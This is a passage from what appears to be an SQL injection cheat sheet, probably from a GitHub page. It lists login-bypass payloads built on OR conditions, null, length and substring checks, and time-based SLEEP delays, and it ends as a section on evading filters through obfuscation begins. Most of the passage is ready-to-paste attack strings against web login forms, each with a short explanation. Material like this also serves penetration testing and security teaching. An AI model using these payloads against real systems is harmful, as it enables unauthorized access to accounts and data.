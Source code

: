 - **Using `OR` with a Null Check:** The payload checks if the username is `NULL`, which might trigger a bypass if the application doesn't handle `NULL` values properly.

```
' OR username IS NULL --
```

- **Using `OR` with Length Comparison:** This payload checks if the length of the username is greater than zero, which is always true if a username exists, potentially bypassing the login.

```
' OR LENGTH(username) > 0 --
```

- **Using `OR` with Substring Check:** This payload extracts the first character of the username and checks if it is `a`. If the application is vulnerable and doesn't properly sanitize input, this could bypass the authentication.

```
' OR SUBSTRING(username, 1, 1) = 'a' --
```

## Bypassing Authentication with Time Delays (Time-Based SQLi)
Exploit time-based SQL Injection to bypass authentication by causing a delay that confirms the payload is being processed.

- **Basic Time Delay:** This payload causes a 5-second delay if the condition is true, which can help confirm the injection and potentially bypass the authentication.

```
' OR IF(1=1, SLEEP(5), 0) --
```

- **Time-Based Bypass with Comparison:** This payload checks if the `admin` username exists and causes a delay if true, potentially bypassing the authentication.

```
' OR IF((SELECT username FROM users WHERE username='admin')='admin', SLEEP(5), 0) --
```

- **Delayed Login Response:** The payload introduces a time delay without conditions, which might be used to confirm the vulnerability in scenarios where a delay in response indicates a successful bypass.

```
' OR SLEEP(5) --
```

# Bypassing Defenses
Bypassing defenses against SQLi involves understanding and evading common security measures implemented in web applications. Attackers use various techniques to evade filters and security mechanisms.

## Obfuscation Techniques
Evade basic filtering mechanisms by altering the appearance of the SQL payload without changing its logic.
